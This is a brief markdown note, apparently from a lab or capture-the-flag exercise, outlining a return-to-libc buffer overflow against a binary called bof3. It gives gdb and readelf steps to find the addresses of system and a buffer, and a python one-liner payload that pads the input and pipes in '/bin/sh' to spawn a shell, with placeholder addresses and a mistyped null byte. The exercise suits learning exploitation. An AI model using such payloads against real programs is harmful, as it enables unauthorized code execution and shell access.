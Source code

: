 # Buffer overflow : Return to libc
# TARGET FILE : bof3

***TASK1***
symbol check! <br>
: gdb -q bof3
: r
: p system -> system function address
: quit (or exit)
: readelf -s bof3 |grep buffer -> variable address

***TASK2***<br>
Q.) payloads <br>
A.) 
(python -c "print '/bin/sh/x00'+'a'*36 +'function Address'_+'4byte'+'Variable Address'";cat) | ./bof3